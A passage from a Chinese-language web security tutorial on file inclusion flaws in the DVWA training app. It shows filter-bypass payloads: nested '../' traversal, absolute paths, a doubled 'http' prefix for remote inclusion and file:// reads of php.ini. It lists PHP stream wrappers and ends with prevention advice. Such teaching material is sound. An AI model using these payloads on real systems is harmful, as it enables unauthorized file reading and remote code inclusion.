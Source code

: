 

##### 5、`str_replace`函数绕过：（中）

使用`str_replace`函数替换指定的字符串是极其不安全的，因为可以使用很多方法绕过。

又假设设置的过滤`../、..\、http://`等，以防止目录穿越和远程文件

```
#1、可以路径嵌套
http://192.168.0.103/dvwa/vulnerabilities/fi/page=..././..././..././..././..././xampp/htdocs/dvwa/php.ini
#2、绝对路径不受任何影响
﻿http://192.168.0.103/dvwa/vulnerabilities/fi/page=C:/xampp/htdocs/dvwa/php.ini
#3、双写http头使用远程文件
﻿http://192.168.0.103/dvwa/vulnerabilities/fi/page=htthttp://p://192.168.5.12/phpinfo.txt
```

##### 6、fnmatch函数绕过：（高）

经常会有开发，用fnmatch函数，用于指定只能用特定的文件名开头的文件

```
if(!fnmatch("file*",$file)&&$file!="include.php")
#本意是当include.php，又不是file开头的文件名时，就不能调用
#但殊不知有file://协议，也是可以读取文件的
http://192.168.0.103/dvwa/vulnerabilities/fi/page=file:///C:/xampp/htdocs/dvwa/php.ini
```

PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数。

```
File:// 访问本地文件系统
htt[p:// 访问HTTP(s)网址
ftp:// 访问FTP(s)URLS
php:// 访问各个输入/输出流(I/o streams)
zlib:// 压缩流
data:// 数据(RFC2397)
ssh2:// Secure Shell 2
expect:// 处理交互式的流
glob:// 查找匹配的文件路径模式
#有时候对方程序员对协议进行限制我们可以多尝试尝另外的
```

#### 漏洞防范

防护解析
1.严格判断包含中的参数是否外部可控

2.路径限制:限制被包含的文件只能是某一个文件夹内，一定要禁止目录跳转字符，如:”../"

3.包含文件验证: 验证被包含的文件是否是白名单中的一员

4.尽量不要使用动态包含，可以在需要包含的页面固定写好

5.将需要包含的文件用白名单方式写死

## 4. 文件上传漏洞
